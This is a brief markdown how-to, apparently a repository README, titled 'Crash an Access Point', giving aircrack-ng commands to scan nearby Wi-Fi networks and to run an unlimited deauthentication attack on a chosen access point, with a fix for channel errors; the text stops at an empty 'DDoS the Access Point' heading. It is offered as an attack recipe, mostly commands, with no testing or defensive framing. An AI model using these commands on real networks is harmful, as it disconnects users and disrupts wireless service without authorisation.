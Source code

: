 # Crash an Access Point

## Installation

```
sudo apt install aircrack-ng
```

---

## Scan for nearby networks

```
sudo airodump-ng wlan0
```

## Scan a specific network

```
sudo airodump-ng wlan0 -d <AP BSSID>
```

---

## Deauthenticate clients on a network

```
sudo aireplay-ng --deauth 0 -a <AP BSSID> wlan0
```

### Explanation
`deauth` - Run a deauth attack - specify amount of deauth packets to send, 0 = inf<br>
`AP BSSID` - The AP's BSSID<br>
`wlan0` - Your wireless interface

### Known errors
May state that the wireless interface is not on the same channel as the AP, a solution is to change the channel by entering the command:

```
sudo iwconfig wlan0 channel <channel>
```
Note: Change `wlan0` to your own interface and set `<channel>` to your preferred channel

---

## DDoS the Access Point

